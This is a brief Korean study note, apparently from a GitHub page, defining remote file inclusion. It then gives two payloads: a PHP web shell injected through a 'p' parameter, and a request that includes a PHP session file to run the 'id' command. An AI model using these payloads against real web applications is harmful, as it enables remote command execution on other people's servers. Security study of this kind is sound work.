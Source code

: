 # 개념
원격 파일 포함 취약점
웹 애플리케이션에서 외부 웹 서버에 있는 악의적인 파일을 포함시킬 수 있는 경우 발생



`p=<?php echo system($_GET['cmd']); ?>`

`p=/var/lib/php/sessions/687b635d46cfd929e6384b922cf50e4b&cmd=id`